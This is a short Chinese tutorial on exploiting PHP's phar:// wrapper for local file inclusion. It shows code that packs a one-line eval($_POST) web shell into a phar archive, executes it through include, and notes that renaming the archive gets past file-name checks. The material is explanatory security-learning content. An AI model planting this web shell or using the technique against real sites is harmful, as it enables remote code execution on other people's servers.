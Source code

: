 具体可看：[joychou](https://joychou.org/web/phar-lfi.html)

**创建phar文件**

phar.readonly = Off 这个参数必须设置为Off，如果为On，表示phar文档不可写。

makephar.php

```php
<?php

try{
    $p = new Phar("my.phar", 0, 'my.phar');
} catch (UnexpectedValueException $e) {
    die('Could not open my.phar');
} catch (BadMethodCallException $e) {
    echo 'technically, this cannot happen';
}

$p->startBuffering();
$p['file1.txt'] = 'file1'; 
$p['file2.txt'] = 'file2';
$p['file3.txt'] = 'file3';
$p['shell.php'] = '<?php phpinfo(); eval($_POST[x]); ?>';

// use my.phar
echo file_get_contents('phar://my.phar/file2.txt');  // echo file2

// make a file named my.phar
$p->setStub("<?php
    Phar::mapPhar('myphar.phar');  
__HALT_COMPILER();");

$p->stopBuffering();

?>
```

上面代码生成一个my.phar文件，代码输出file2字符串。

my.phar文件包含了file1.txt，file2.txt，file3.txt和shell.php这四个文件。当然了，这四个文件不是真实存在磁盘上。

注意：这几个文件不能直接通过http访问，但可以被include和file_get_contents等php函数利用。

**利用phar**

在makephar.php文件的当前目录，新建一个callphar.php，利用phar特定的格式。

```php
<?php
include 'phar://my.phar/shell.php';
?>
```

访问callphar.php即可调用shell.php

注意：**phar文件不受文件名限制**，即my.char可以任意的重命名为aaa.bbb
